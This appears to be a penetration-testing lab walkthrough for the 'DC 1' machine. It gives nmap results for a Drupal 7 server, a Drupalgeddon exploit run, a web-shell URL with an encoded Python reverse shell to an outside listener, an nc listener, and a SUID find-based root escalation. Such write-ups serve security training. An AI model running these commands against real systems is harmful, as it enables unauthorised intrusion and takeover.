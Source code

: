 # DC 1

***

IP=192.168.240.193

## NMAP

| PORT      | STATE | SERVICE |
| --------- | ----- | ------- |
| 22/tcp    | open  | ssh     |
| 80/tcp    | open  | http    |
| 111/tcp   | open  | rpcbind |
| 46232/tcp | open  | unknown |

```perl
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Welcome to Drupal Site | Drupal Site
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
```

## Drupalgeddon

```bash
/usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.240.193/
```



<figure><img src="../../.gitbook/assets/Pasted image 20231022222314.png" alt=""><figcaption></figcaption></figure>

```bash
http://192.168.240.193/shell.php?c=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.223%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

```bash
nc -lvnp 1234
```

## PrivEsc

### SUID

```bash
find / -perm -4000 2>/dev/null
```

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
